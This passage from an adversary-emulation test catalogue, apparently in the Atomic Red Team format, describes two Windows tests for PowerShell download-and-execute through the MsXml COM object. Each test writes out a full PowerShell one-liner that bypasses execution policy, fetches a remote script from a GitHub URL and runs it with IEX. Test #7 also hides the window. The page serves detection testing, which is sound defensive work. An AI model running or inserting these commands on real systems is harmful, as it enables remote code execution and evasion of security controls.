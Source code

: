 <br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - no prompt
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1086/payloads/test.ps1|


#### Attack Commands: Run with `command_prompt`! 
```
powershell.exe IEX -exec bypass -windowstyle hidden -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```






<br/>
<br/>

## Atomic Test #8 - Powershell MsXml COM object - with prompt
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/arnoldmw/thremulate/master/art/atomics/T1086/payloads/test.ps1|


#### Attack Commands: Run with `command_prompt`! 
```
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```






<br/>
<br/>
